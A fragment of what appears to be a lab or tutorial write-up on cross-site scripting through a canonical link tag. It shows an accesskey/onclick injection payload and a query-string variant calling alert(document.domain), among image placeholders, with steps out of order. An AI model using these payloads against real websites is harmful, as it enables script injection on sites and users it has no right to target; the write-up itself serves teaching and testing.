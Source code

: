 **Step4**

Now we try with this payload
```
<link rel="canonical" href="https://www.example.com/" accesskey="x" onfocus="alert(document.domain)" x=">
```

In our case it look like

`?'accesskey='x'onclick='alert(document.domain)`

Here no space between query.

<img src="images/image101.png" alt="third" width="500">

<img src="images/image102.png" alt="third" width="500">

**Step1**

First entering a simple input and see the result

<img src="images/image103.png" alt="third" width="500">
